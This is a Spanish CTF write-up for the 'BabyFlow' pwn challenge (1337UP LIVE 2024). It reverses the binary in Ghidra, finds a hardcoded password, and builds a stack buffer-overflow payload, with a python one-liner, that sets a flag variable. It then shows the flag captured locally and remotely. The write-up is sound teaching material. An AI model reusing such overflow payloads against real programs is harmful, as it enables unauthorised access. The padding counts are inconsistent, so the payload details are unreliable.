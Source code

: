```yaml
---
title: BabyFlow - 1337UP LIVE CTF2024
author: Kesero
description: Reto de Pwn/Reversing basado en cambiar el valor de una variable en ejecución mediante un BufferOverflow.
date: 2024-11-16 20:57:00 +0800
categories: [Writeups Competiciones Internacionales, Pwn]
tags: [Pwn, Pwn - Buffer Overflow, Dificultad - Fácil, Otros - Writeups, 337UPLIVECTF]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2024/Pwn/1337UpCTF2024/BabyFlow/BabyFlow.jpg
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `CryptoCat`

Dificultad: <font color=green>Fácil</font>

## Enunciado

"Does this login application even work?!

## Archivos

Este reto nos da los siguientes archivos.

- `babyflow` : Contiene el ejecutable a vulnerar.
- `nc babyflow.ctf.intigriti.io 1331` : Conexión por netcat al servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2024/Pwn/1337UpCTF2024/BabyFlow).

## Analizando el código

En este reto, tenemos un ejecutable el cual se corresponde con un `ELF` (Executable and Linkable Format) de 64 bits LSB.

    ┌──(kesero㉿kali)-[~]
    └─$ file babyflow

    babyflow: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=55a6fe0ff25ff287549a03eb79dd00df541ece7f, for GNU/Linux 3.2.0, not stripped

Para poder ejecutarlo, simplemente le otorgamos permisos de ejecución y observamos lo siguiente.

    ┌──(kesero㉿kali)-[~]
    └─$ ./babyflow

    Enter password: password
    Inorrect Password!

## Solución

En este reto, tenemos que encontrar una contraseña para poder continuar con la ejecución del programa. Lo primero que deberemos de hacer será lanzar un `strings` al binario para que nos arroje las cadenas de texto contenidas en dicho ejecutable. En este caso no encontramos nada.

Lo siguiente a probar será la herramienta de `Ghidra` con la cual podremos analizar el código de manera estática para observar el funcionamiento y el comportamiento del programa.

Para ello inicializamos `Ghidra`, creamos un proyecto, importamos el ejecutable y por último, le damos a analizar, para que el programa nos arroje el código en ensamblador analizado.

Una vez ya tenemos el entorno creado, tenemos que irnos a la sección de funciones e ir analizando las mismas en busca de cualquier información. En este caso, solo tenemos una función `main`.
Tras cambiar el nombre de algunas variables en la función `main`, podemos observar su comportamiento de forma más clara y a su vez, podemos ver que la contraseña esta hardcodeada en texto claro.

![codigo_ghidra](https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2024/Pwn/1337UpCTF2024/BabyFlow/function.png)

Como podemos ver, la contraseña a introducir para continuar con la ejecución del programa es `SuPeRsEcUrEPaSsWoRd123`, por lo que ejecutando nuevamente el binario con esta contraseña obtenemos lo siguiente.

    ┌──(kesero㉿kali)-[~]
    └─$ ./babyflow
    Enter password: SuPeRsEcUrEPaSsWoRd123
    Correct Password!
    Are you sure you are admin? o.O

Para poder llegar a la ejecución del `print` con la flag, tenemos que introducir la contraseña primero y posteriormente entrar dentro del `if`, el cual tiene asociado una variable `local_c`. Si `local_c` es igual a `1`, entonces se ejecutará el contenido.

Por tanto, simplemente con cambiar el valor de `local_c` a `1`, una vez hayamos introducido la contraseña correcta, ya podremos acceder a la ejecución del `print` y obtener la flag, ¿cierto?

Solo hay un pequeño problema y es que en el código del ejecutable no se cambia el valor de `local_c`, por lo que el valor de dicha variable permanece igual en su ejecución y su contenido siempre es `0`.

Llegados a este punto, tenemos que cambiar el valor de dicha variable de manera dinámica, es decir, una vez el programa está en ejecucción. Pero realmente, ¿cómo hacemos esto?

Para conseguir cambiar el valor de la variable `local_c`, tenemos que usar técnicas como **explotación de memoria** o **manipulación de variables en el binario**. 

Vamos a comenzar a realizar un sencillo `Buffer Overflow` ya que podemos observar que la función `fgets` permite leer hasta 50 caracteres (`0x32` en hexadecimal). Sin embargo, el buffer `input` tiene 44 bytes. Esto deja una brecha de 6 bytes a aprovechar para sobreescribir `local_c`. Por lo tanto, tendremos que estructurar un input de manera que la parte adicional después del string correcto, sobreescriba `local_c` en memoria.

Es muy importante aclarar que la variable `local_c` está declarada en memoria inmediatamente después del buffer input. Esto significa que cualquier contenido adicional que sobrepase los 44 bytes del buffer de entrada puede escribir directamente sobre la variable `local_c`.

Por ejemplo un buen input sería el siguiente:

```plaintext
SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAA\x01
```

### NOTA

Para ir probando inputs, lo recomendable es utilizar la consola interactiva de `python` e ir calculando la cantidad necesaria para desbordar el buffer y cambiar el contenido de la variable `local_c`.

```py
python -c 'print("SuPeRsEcUrEPaSsWoRd123" + "A" * 29 + "\x01")' | ./babyflow
```

En este caso:
- `SuPeRsEcUrEPaSsWoRd123` satisface la comparación de contraseña.
- `AAAAAAAAAAAAAAAAAAAA\x01` desbordará el buffer y sobrescribe `local_c` con el valor `0x01`, que se corresponde con el valor `1`.

Al ejecutar el binario, obtenemos lo siguiente.

    ┌──(kesero㉿kali)-[~]
    └─$ ./babyflow

    Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAA\x01
    Correct Password!
    INTIGRITI{the_flag_is_different_on_remote}

Listo! Una vez tenemos la flag en local, simplemente tenemos que obtenerla de manera remota. Para esto, como este reto requiere de introducir la cadena correcta, no es necesario realizar un script para automatizar el proceso, únicamente con introducir dicha cadena en el servidor, ya obtenemos la flag.

    ┌──(kesero㉿kali)-[~]
    └─$ nc babyflow.ctf.intigriti.io 1331a

    Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAA\x01
    Correct Password!
    INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}

## Flag

`INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}`